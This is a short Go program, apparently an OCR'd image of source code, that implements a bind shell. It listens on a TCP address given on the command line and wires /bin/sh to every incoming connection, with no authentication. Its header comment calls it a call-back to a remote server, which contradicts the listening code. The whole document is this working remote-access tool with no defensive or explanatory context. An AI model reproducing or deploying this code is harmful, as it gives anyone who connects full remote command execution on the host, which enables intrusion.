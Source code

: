 ```go
// Call back to a remote server and open a shell session
package main

import (
   "fmt"
   "log"
   "net"
   "os"
   "os/exec"
)

var shell = "/bin/sh"

func main() {
   // Handle command line arguments
   if len(os.Args) != 2 {
      fmt.Println("Usage: " + os.Args[0] + " <bindAddress>")
      fmt.Println("Example: " + os.Args[0] + " 0.0.0.0:9999")
      os.Exit(1)
   }

   // Bind socket
   listener, err := net.Listen("tcp", os.Args[1])
   if err != nil {
      log.Fatal("Error connecting. ", err)
   }
   log.Println("Now listening for connections.")

   // Listen and serve shells forever
   for {
      conn, err := listener.Accept()
      if err != nil {
         log.Println("Error accepting connection. ", err)
      }
      go handleConnection(conn)
   }

}

// This function gets executed in a thread for each incoming connection
func handleConnection(conn net.Conn) {
   log.Printf("Connection received from %s. Opening shell.", 
   conn.RemoteAddr())
   conn.Write([]byte("Connection established. Opening shell.\n"))

   // Use the reader/writer interface to connect the pipes
   command := exec.Command(shell)
   command.Stdin = conn
   command.Stdout = conn
   command.Stderr = conn
   command.Run()

   log.Printf("Shell ended for %s", conn.RemoteAddr())
} 
```
